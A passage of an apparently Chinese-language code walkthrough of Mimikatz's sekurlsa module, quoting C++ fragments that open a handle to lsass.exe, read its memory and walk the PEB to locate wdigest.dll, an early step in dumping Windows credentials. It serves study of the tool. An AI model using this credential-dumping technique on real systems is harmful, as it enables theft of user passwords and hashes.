 ```c++
            }
            else PRINT_ERROR(L"Memory opening\n");

            if(!NT_SUCCESS(status))
                CloseHandle(hData);
        }
        else PRINT_ERROR_AUTO(L"Handle on memory");

        if(!NT_SUCCESS(status))
            cLsass.hLsassMem = kull_m_memory_close(cLsass.hLsassMem);
    }
    return status;
}
```

`kuhl_m_sekurlsa_acquireLSA()` 中首先通过 `kull_m_process_getProcessIdForName` 和 `OpenProcess` 两个函数获取 lsass.exe 进程的 PID，并创建一个该进程的句柄 `hData`。然后调用 `kull_m_memory_open()` 函数，该函数将打开的进程句柄保存到 `cLsass.hLsassMem.pHandleProcess->hProcess` 中。

接着，将有关系统版本的信息复制到 `cLsass.osContext` 中：

```c++
// 设置 KUHL_M_SEKURLSA_OS_CONTEXT（osContext）结构中的三个值
 cLsass.osContext.MajorVersion = MIMIKATZ_NT_MAJOR_VERSION;
 cLsass.osContext.MinorVersion = MIMIKATZ_NT_MINOR_VERSION;
 cLsass.osContext.BuildNumber  = MIMIKATZ_NT_BUILD_NUMBER;
```

如果此时没有错误，则调用 `kull_m_process_getVeryBasicModuleInformations()` 函数获取 lsass.exe 进程的基础信息，主要用来获取加载的 wdigest.dll 模块的基地址。

Get Very Basic Module Informations
----------------------------------

跟进 `kull_m_process_getVeryBasicModuleInformations()` 函数：

- kull\_m\_process.c

```c++
NTSTATUS kull_m_process_getVeryBasicModuleInformations(PKULL_M_MEMORY_HANDLE memory, PKULL_M_MODULE_ENUM_CALLBACK callBack, PVOID pvArg)
{
    NTSTATUS status = STATUS_DLL_NOT_FOUND;
    PLDR_DATA_TABLE_ENTRY pLdrEntry;
    PEB Peb; PEB_LDR_DATA LdrData; LDR_DATA_TABLE_ENTRY LdrEntry;
#if defined(_M_X64) || defined(_M_ARM64) // TODO:ARM64
    // ...
#endif
    ULONG i;
    KULL_M_MEMORY_ADDRESS aBuffer = {NULL, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KULL_M_MEMORY_ADDRESS aProcess= {NULL, memory};
    PBYTE aLire, fin;
    PWCHAR moduleNameW;
    UNICODE_STRING moduleName;
    PMINIDUMP_MODULE_LIST pMinidumpModuleList;
    PMINIDUMP_STRING pMinidumpString;
    KULL_M_PROCESS_VERY_BASIC_MODULE_INFORMATION moduleInformation;
    PRTL_PROCESS_MODULES modules = NULL;
    BOOL continueCallback = TRUE;
    moduleInformation.DllBase.hMemory = memory;
    switch(memory->type)
    {
    case KULL_M_MEMORY_TYPE_OWN:
        // ......
    case KULL_M_MEMORY_TYPE_PROCESS:
        moduleInformation.NameDontUseOutsideCallback = &moduleName;
        // 获取进程的 PEB 结构
```